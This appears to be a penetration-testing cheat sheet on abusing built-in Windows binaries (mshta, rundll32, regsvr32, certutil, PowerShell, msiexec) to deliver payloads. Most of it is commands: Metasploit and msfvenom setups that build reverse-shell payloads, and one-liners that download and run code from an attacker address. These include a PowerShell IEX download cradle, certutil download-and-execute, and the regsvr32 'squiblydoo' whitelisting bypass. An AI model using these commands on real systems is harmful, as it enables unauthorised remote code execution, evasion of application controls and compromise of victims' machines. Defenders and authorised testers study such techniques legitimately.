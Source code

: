 # 🔧 LOL Binaries



## Tools

**Mshta.exe :** Launch HTA attack via HTA Web Server of Metasploit

**Rundll32.exe :** Launch Rundll32 Attack via SMB Delivery of Metasploit

**Regsvr32.exe :** Launch Regsvr32 via Script Web Delivery of Metasploit

**Certutil.exe :** Launch MSbuild Attack via Msfvenom C# shellcode

**Powershell.exe :**

* Launch cscript.exe via Powershell
* Launch Batch File Attack via Powershell

**Msiexec.exe :** Launch msiexec attack via msfvenom

**Wmic.exe :** Launch Wmic.exe attack via Koadic

find more at : &#x20;

{% embed url="https://lolbas-project.github.io" %}

## Mshta.exe

Mshta.exe runs the Microsoft HTML Application Host, the Windows OS utility responsible for running **HTA**( HTML Application) files. HTML files that we can run JavaScript or VBScript with. You can interpret these files using the Microsoft MSHTA.exe tool.

Metasploit contain the “HTA Web Server” module which generates malicious hta file. This module hosts an HTML Application (HTA) that when opened will run a payload via Powershell. When a user navigates to the HTA file they will be prompted by IE twice before the payload is executed.

```
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```

```
mshta.exe http://192.168.1.109:8080/5EEiDSd70ET0k.hta
```

## Rundll32.exe

Rundll32.exe is associated with Windows Operating System that allows you to invoke a function exported from a **DLL**, either 16-bit or 32-bit and store it in proper memory libraries.

**Launch Rundll32 Attack via SMB Delivery of Metasploit**

Metasploit also contain the “SMB Delivery” module which generates malicious dll file. This module serves payloads via an SMB server and provides commands to retrieve and execute the generated payloads. Currently supports DLLs and Powershell.

```
use exploit/windows/smb/smb_delivery
msf exploit(windows/smb/smb_delivery) > set srvhost 192.168.1.109
msf exploit(windows/smb/smb_delivery) > exploit
```

Now run the malicious code through rundll32.exe on the victim machine (vulnerable to RCE) to obtain meterpreter sessions.

```
rundll32.exe \\192.168.1.109\vabFG\test.dll,0
```

## Regsvr32.exe

Regsvr32 is a command-line utility to register and unregister OLE controls, such as **DLLs** and ActiveX controls in the Windows Registry. Regsvr32.exe is installed in the %systemroot%\System32 folder in Windows XP and later versions of Windows.

_Syntax:_

```
Regsvr32 [/s][/u] [/n] [/i[:cmdline]] <dllname>
```

RegSvr32.exe has the following command-line options:

* /u – Unregister server
* /i – Call DllInstall passing it an optional \[cmdline]; when it is used with&#x20;
* /u, it calls dll to uninstall&#x20;
* /n – do not call DllRegisterServer; this option must be used with&#x20;
* /s – Silent; display no message boxes

**Launch Regsvr32 via Script Web Delivery of Metasploit**

****

This module quickly fires up a web server that serves a payload. The provided command which will allow for a payload to download and execute. It will do it either specified scripting language interpreter or “squiblydoo” via regsvr32.exe for bypassing application whitelisting. The main purpose of this module is to quickly establish a session on a target machine when the attacker has to manually type in the command: e.g. Command Injection.

Regsvr32 uses “squiblydoo” technique for bypassing application whitelisting. The signed Microsoft binary file, Regsvr32, is able to request a .sct file and then execute the included PowerShell command inside of it. Both web requests (i.e., the **.sct file and PowerShell** download/execute) can occur on the same port. “PSH (Binary)” will write a file to the disk, allowing for custom binaries to be served up to be downloaded/executed

```
use exploit/multi/script/web_delivery
msf exploit (web_delivery)>set target 3
msf exploit (web_delivery)> set payload windows/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.109
msf exploit (web_delivery)>set srvhost 192.168.1.109
msf exploit (web_delivery)>exploit
```

```
regsvr32 /s /n /u /i:http://192.168.1.109:8080/xo31Jt5dIF.sct scrobj.dll
```

## Certutil.exe

Certutil.exe is a command-line program that is installed as part of Certificate Services. We can use this tool to execute our malicious **exe file** in the target machine to get a meterpreter session.

**Launch certutil Attack via Msfvenom**

Generate a malicious executable (.exe) file with msfvenom and **start multi/handler** to get the reverse shell of the victim’s machine.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f exe > shell.exe
```

Now, to dump configuration information or shell.exe file files with certutil. you can follow below syntax:

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

```
certutil.exe -urlcache -split -f http://192.168.1.109/shell.exe shell.exe & shell.exe
```

## **Batch File**

&#x20;PowerShell allows the client to execute **bat file**_._

```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=4444 > 1.bat
```

```
nc -nvlp 4444
```

Then execute the following command on the remote side to get netcat session.

```
// Some powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.1.109/1.bat'))
```

## **Cscript**

PowerShell allows the client to execute **cscript.exe** to run **wsf, js** and **vbscript.**

```
msfvenom -p cmd/windows/reverse_powershell lhost=192.168.1.109 lport=1234 -f vbs > 1.vbs
```

Then execute the following command on the remote side to get a meterpreter session.

```
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.1.109/1.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""
```

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

## Msiexec.exe

As we all are aware that Windows OS comes installed with a Windows Installer engine which is used by **MSI packages** for the installation of applications. The executable program that interprets packages and installs products is Msiexec.exe.&#x20;

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.109 lport=1234 -f msi > 1.msi
```

```
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.1.109
msf exploit(multi/handler) > set lport 1234
msf exploit(multi/handler) > exploit
```

```
msiexec /q /i http://192.168.1.109/1.msi
```



